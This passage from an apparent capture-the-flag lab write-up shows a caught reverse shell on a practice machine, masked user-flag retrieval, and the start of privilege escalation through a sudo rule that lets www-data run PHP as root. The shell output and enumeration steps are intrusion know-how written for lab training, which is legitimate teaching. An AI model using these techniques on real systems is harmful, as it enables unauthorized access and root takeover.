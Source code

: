 > listening on \[any\] 4444 ...
> 
> connect to \[10.10.14.43\] from (UNKNOWN) \[10.129.181.169\] 36042
> 
> bash: cannot set terminal process group (1008): Inappropriate ioctl for device
> 
> bash: no job control in this shell
> 
> www-data@gettingstarted:/var/www/html$

Now,trying to get the flag within the user.txt file located in the user's home directory as follow:

> www-data@gettingstarted:/var/www/html$ ls -l /home/
> 
> total 4
> 
> drwxr-xr-x 3 mrb3n mrb3n 4096 May 7 2021 mrb3n
> 
> www-data@gettingstarted:/var/www/html$ ls -l /home/mrb3n/
> 
> total 4
> 
> -rw-rw-r-- 1 mrb3n mrb3n 33 Feb 16 2021 user.txt
> 
> www-data@gettingstarted:/var/www/html$ cat /home/mrb3n/user.txt
> 
> 70xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

## Privilege Escalation:

Now that we have successfully gained a foothold on our target machine with limited user privilege, we will try to escalate our privilege and getting a root privilege.

To do that, we will first trying to find if we have sudo privilege associated with our logged in user as follow:

```bash
sudo -l
```

> www-data@gettingstarted:/var/www/html$ sudo -l
> 
> Matching Defaults entries for www-data on gettingstarted:
> 
> env\_reset, mail\_badpass,
> 
> secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin
> 
> User www-data may run the following commands on gettingstarted:
> 
> (ALL : ALL) NOPASSWD: /usr/bin/php

Awesome, as mentioned above we were being able to run PHP binary command as root, so lets try that:
